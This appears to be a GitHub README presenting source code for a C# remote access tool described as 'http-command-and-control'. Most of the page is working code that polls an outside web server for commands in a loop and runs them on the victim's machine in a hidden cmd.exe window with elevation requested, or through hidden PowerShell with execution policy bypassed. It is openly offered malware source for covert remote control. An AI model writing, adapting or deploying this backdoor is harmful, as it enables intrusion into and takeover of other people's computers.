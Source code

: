 # http-command-and-control Remote Access Tool (RAT) using c# >

<b>Let's understand it.</b><br>
<b>This will get the command from online web server.
</b><br>
                          new WebClient().DownloadString("https://r.significantbyte.com/go.php");<br>
<br><br><br>
<b>Run command in device.</b><br>
                            Process cmd = new Process();<br>
                            cmd.StartInfo.FileName = "cmd.exe";<br>
                            cmd.StartInfo.RedirectStandardInput = true;<br>
                            cmd.StartInfo.RedirectStandardOutput = true;<br>
                            cmd.StartInfo.CreateNoWindow = true;<br>
                            cmd.StartInfo.UseShellExecute = false;<br>
                            cmd.StartInfo.Verb = "runas";<br>
                            cmd.Start();<br>
                            cmd.StandardInput.WriteLine(json);<br>
                            <br><br><br>
  
<b>Lets wait for 1 second</b><br>
                            Thread.Sleep(1000);<br><br><br>
<b>Now lets combine the whole idea. Get the command and run cmd in while loop</b>
 while (chk == 0)
            {
                try
                {
                    json = new WebClient().DownloadString("https://r.significantbyte.com/go.php");
                    if (json != oldjson)
                    {

                        if (json.Contains("curl.exe"))
                        {
                            System.Diagnostics.Process.Start("CMD.exe", "/C powershell -w h -ep bypass " + json);
                        }
                        else
                        {
                            Process cmd = new Process();
                            cmd.StartInfo.FileName = "cmd.exe";
                            cmd.StartInfo.RedirectStandardInput = true;
                            cmd.StartInfo.RedirectStandardOutput = true;
                            cmd.StartInfo.CreateNoWindow = true;
                            cmd.StartInfo.UseShellExecute = false;

                            cmd.StartInfo.Verb = "runas";
                            cmd.Start();

                            cmd.StandardInput.WriteLine(json);
                        }

                        Console.WriteLine("diff result json=" + json + "old=" + oldjson);
                    }
                    else
                    {
                        Console.WriteLine("same result json=" + json + "old=" + oldjson);
                    }


                    oldjson = json;
                }
                catch (Exception e)
                {
                    Console.WriteLine("Connection not stable.");
                }
                Thread.Sleep(1000);

            }

